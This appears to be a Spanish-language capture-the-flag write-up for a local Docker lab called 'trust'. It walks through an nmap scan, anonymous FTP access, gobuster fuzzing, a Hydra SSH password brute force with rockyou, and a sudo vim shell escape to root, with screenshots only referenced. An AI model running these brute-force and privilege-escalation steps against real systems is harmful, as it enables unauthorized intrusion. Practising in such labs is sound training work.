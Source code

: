 
Desplegamos el contenedor:

```Bash
bash auto_deploy.sh trust.tar
```

![[Pasted image 20250131110723.png]]

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![[Pasted image 20250131110822.png]]

Nos conectamos con **FTP**:

```
ftp 172.17.0.2
```

![[Pasted image 20250131110950.png]]

```
anonymous
```

![[Pasted image 20250131111006.png]]

```
'blank'
```

![[Pasted image 20250131111028.png]]

```
ls
```

![[Pasted image 20250131111046.png]]

```
get chat-gonza.txt pendientes.txt
```

![[Pasted image 20250131111122.png]]

```
cat chat-gonza.txt
```

![[Pasted image 20250131111157.png]]

```
cat pendientes.txt
```

![[Pasted image 20250131111325.png]]

Encontramos 3 nombres así que vamos a explorar un poco más.

Hacemos **Fuzzing**:

```
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![[Pasted image 20250131112740.png]]

Nos metemos en la web:

![[Pasted image 20250131111923.png]]

![[Pasted image 20250131111936.png]]

Fuerza Bruta con **Hydra**:

```Bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2
```

![[Pasted image 20250131112040.png]]

Nos conectamos con **SSH**:

```Bash
ssh russoski@172.18.0.2
```

![[Pasted image 20250131112159.png]]

Elevamos privilegios:

```
sudo -l
```

![[Pasted image 20250131112216.png]]

```
sudo vim -c ':!/bin/bash'
```

![[Pasted image 20250131112620.png]]

```
whoami
```

![[Pasted image 20250131112638.png]]
